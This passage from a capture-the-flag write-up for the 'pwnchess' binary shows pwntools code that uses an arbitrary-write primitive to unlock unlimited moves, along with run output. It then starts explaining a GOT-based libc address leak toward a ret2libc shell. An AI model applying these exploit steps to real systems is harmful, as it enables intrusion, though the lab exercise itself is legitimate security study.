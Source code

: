 ```python
ADDR_MOVES = elf.symbols['moves'] # == 0x602060
```

Now, writing a new value should be simple using `ADDR_MOVES` and the helper function `perf_write`.  I will go ahead and write the maximum value: `0xff` and test it out to make sure everything works.

```python
ADDR_MOVES = elf.symbols['moves'] # == 0x602060

p = getp()
perf_write(p, ADDR_MOVES, 0xff)
p.interactive()
```

```
$ ./solver.py
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/pwnchess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '../distFiles/pwnchess': pid 30426
[*] Switching to interactive mode
2
Enter address in decimal format (e.g. 12345): You entered: 0x602060
Enter byte in decimal format (e.g. 255): You entered: 0xff
Value(0xffffffff) written to 0x602060
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 255
$  
```

Great, we have just unlocked unlimited moves!  Now to proceed with popping a shell.

## Leaking the libc base address

As is implied by the inclusion of `libc-2.27.so`, we are likely going to need to use the `ret2libc` technique to get a shell.  The problem is, we don't currently know where libc is loaded in memory.  But, if we can leak the address of any libc function, we can use the provided `libc-2.27.so` library to calculate offsets from the known function.  Once we have the base address for where libc is loaded in memory, we can calculate the address of any other function or string in libc.

A common trick to getting the address of a libc function is to leak an address from the GOT (Global Offset Table).  But be sure to only attempt to leak the address of a function that has already been called (as these addresses are updated dynamically at run-time).  I have chosen to leak `puts`.
